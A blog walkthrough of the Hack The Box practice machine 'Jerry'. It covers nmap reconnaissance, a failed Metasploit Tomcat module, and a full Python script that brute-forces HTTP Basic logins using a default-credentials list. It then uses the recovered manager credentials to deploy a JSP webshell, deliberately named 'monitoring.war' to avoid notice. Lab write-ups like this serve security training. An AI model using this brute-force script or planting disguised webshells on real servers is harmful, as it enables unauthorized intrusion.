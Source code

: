 ```yaml
---
layout: post
title: HTB Jerry Walkthrough
categories: security
---
```


## Summary

Jerry is another easy box, with a focus this time on brute-forcing credentials. Not much more to say, really, so without further ado, let's hop to it!

## External Reconnaisance

### NMap Port Scan

As we always do with HTB boxes, we will begin with some NMap reconnaisance. We first conduct a scan against the top 1000 ports, with scripts enabled:

`sudo nmap -v -sC -sS -oX nmap-10-10-10-7-scripted.xml 10.10.10.7`,

and follow that up with a non-script scan of all 65535 ports:

`nmap -v -p- -oX nmap-10-10-10-7-full.xml 10.10.10.7`

We find the following ports are open:

| port      | state | service          |
| --------- | ----- | ---------------- |
| 8080/tcp  | open  |    http-proxy    |

The script scan grabs the banner info from the server, showing that it is running version 7.0.88 of Apache Tomcat.

### Web Reconnaisance

Navigating to `10.10.10.95:8080` in our browser shows us a default-looking Tomcat welcome screen. This is interesting, since it indicates that the site is incomplete, and may have been put up in a rush. If the devs didn't bother to change the landing page, what else did they not bother to change?

[<img src="{{ site.baseurl }}/images/security/jerry/tomcat-welcome.png" alt="Tomcat default welcome screen" style="width: 400px;"/>]({{ site.baseurl }}/images/security/jerry/tomcat-welcome.png)

Trying to navigate away to the server status page, the manager app, or the host manager, pops up an HTTP Basic authentication prompt. Not much else we can do from here.

[<img src="{{ site.baseurl }}/images/security/jerry/tomcat-auth.png" alt="Tomcat authentication prompt" style="width: 400px;"/>]({{ site.baseurl }}/images/security/jerry/tomcat-auth.png)

A quick search online for CVEs against this version of Tomcat reveals `https://www.cvedetails.com/cve/CVE-2019-0232/`: an RCE *with* a Metasploit module!

## Exploitation

So let's try to exploit this vulnerability. We boot up Metasploit, choose the appropriate exploit module

`use exploit/windows/http/tomcat_cgi_cmdlineargs`,

set the target

`set rhosts 10.10.10.95`,

and `run` the exploit...

And it's not exploitable. Darn. 

Not seeing any other immediate options, let's see if we can brute-force the HTTP Basic login. This isn't as much of a shot in the dark as you may think; we already know that the site has not been configured particularly well (see above), so maybe they've kept a default password.

We can quickly put together a python script which can run through a list of credentials, and try each in turn against an HTTP Basic authentication endpoint:

```python
import requests
import argparse

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Does a basic bruteforce, using HTTP Basic Authentication, against a web endpoint.")
    parser.add_argument("credslist", type=str, help="A list of credentials, one set per line, in format [username]:[password]")
    parser.add_argument("target", type=str, help="The target URL to authenticate against")

    args = parser.parse_args()
    success = False

    with open(args.credslist) as f:
        for line in f:
            creds = line.strip("\n").split(":")
            response = requests.get(args.target, auth=(creds[0], creds[1]))

            if response.status_code == 200:
                print("[+] Valid credentials: {}:{}".format(creds[0], creds[1]))
                success = True
                break

    if success != True:
        print("[-] No valid credentials found.")
```

We then run this by: `python3 http-basic-auth-bruteforce.py /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http://10.10.10.95:8080/manager/html`. Leaving it a short time returns us the credentials: `tomcat:s3cret`. Very secure(!)

Using these credentials, we log in to the Web Application Manager interface. This interface allows us to upload WAR files to be run on the server. Juicy.

[<img src="{{ site.baseurl }}/images/security/jerry/tomcat-app-man.png" alt="Tomcat Web App Manager" style="width: 400px;"/>]({{ site.baseurl }}/images/security/jerry/tomcat-app-man.png)

Quickly hopping over to Github to grab a JSP webshell (I plan to code up one of my own at some point, but hey ho): `https://github.com/tennc/webshell/blob/master/jsp/jspbrowser/Browser.jsp`. We then compile this: `jar -cvf monitoring.war index.jsp`; we choose the name so as to fly under the radar a little.

Uploading this gives us access to the filesystem, from where we can apparently view files owned by `root`, because I guess they're running Tomcat as `root`. No privesc needed!

## Conclusion

Hope you enjoyed this walkthrough and the box; quite a fun little easy box. Stay tuned for more walkthroughs, as I start to catch up with the backlog of boxes I want to write up.

As always, you can head to my GitHub to see [a bit of a more "professional report"-style writeup](https://github.com/cybersecmoo/writeups/blob/jerry/htb/boxes/jerry.md), if that's your bag.

Thanks for reading!

